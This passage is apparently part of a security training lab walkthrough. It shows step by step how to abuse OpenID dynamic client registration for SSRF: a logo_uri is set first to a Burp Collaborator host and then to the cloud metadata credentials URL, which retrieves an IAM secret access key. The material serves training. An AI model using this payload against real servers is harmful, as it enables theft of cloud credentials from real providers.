```

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://YOUR-COLLABORATOR-ID.burpcollaborator.net"
}
```
7. Send the request to register a new client application and copy the ``client_id`` from the response.
8. In Repeater, go to the ``GET /client/CLIENT-ID/logo`` request. Replace the ``CLIENT``-ID in the path with the new one you just copied and send the request.
9. Go to the Burp Collaborator client dialog and check for any new interactions. Notice that there is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the ``logo_uri`` property to elicit requests from the OAuth server.
10. Go back to the ``POST /reg`` request in Repeater and replace the current ``logo_uri`` value with the target URL:
```
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```
11. Send this request and copy the new ``client_id`` from the response.
12. Go back to the ``GET /client/CLIENT-ID/logo`` request and replace the ``client_id`` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.
13. Use the "Submit solution" button to submit the access key and solve the lab.